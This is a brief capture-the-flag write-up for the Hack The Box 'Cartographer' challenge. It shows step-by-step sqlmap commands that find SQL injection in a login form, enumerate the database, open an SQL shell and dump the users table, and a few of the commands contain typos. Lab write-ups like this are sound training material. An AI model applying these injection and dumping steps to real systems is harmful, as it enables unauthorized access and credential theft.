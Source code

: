 # Cartographer
Solution to Hack The Box Challenge - Cartographer

### Problem

It's a web that exposes you a login form and you must discover the username and password to gain access.

### Solution

SQL Injection using SQLMap. <br>
[SQLMap - automatic SQL injection](http://sqlmap.org/)

Tell SQLMap to detect vulnerabilites sending a payload example (extracted from the form)
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd"
```

SQL detect a vulnerability that you can exploit. So you tell it to list all the dbs
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --dbs
```

It has the dbs. So list the tables
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --tables -D cartographer
```

It has the tables. So list the columns of the table that I was interested.
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --colums -T users -D cartographer
```

It has all the info. So I want to use a sql query to consume it. SQLMap can give me access to a SQL console using this command
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" ---D cartographer --sql-shell
```

Send a query to get the accounts.
```bash
sql-shell> SELECT * FROM cartographer.users
```
